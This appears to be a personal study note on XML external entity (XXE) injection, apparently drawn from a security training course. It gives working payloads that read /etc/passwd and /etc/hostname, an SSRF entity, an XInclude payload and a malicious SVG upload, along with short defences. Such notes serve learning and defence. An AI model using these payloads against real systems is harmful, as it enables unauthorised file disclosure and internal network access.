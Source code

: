 # XML external entity (XXE)

### What is XML
- Some applications use the XML format to transmit data between the browser and the server.
- Its popularity has now declined in favor of the JSON format

## Impact
- Retrieve files
- Perform SSRF attacks

## Exploiting XXE to retrieve files
1) Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file
2) Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
- Note: To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response. 

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
- Reflected SSRF
- Bind SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE
- to do

## Finding hidden attack surface for XXE injection
- Requests that contain data in XML format
- Requests that do not contain any XML
  - (A way to detect) It's useful add entity reference that doesn't exist to cause an error condition -> ok it's XML ... 
  - XInclude attacks
    - Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document
    - XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
    - ```
      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
      ```
  - Via file upload
    - Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG
    - ` <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> `
   - Via modified content type
     - To do
    
## Defence
- Disable resolution of external entities
- Disable support for XInclude
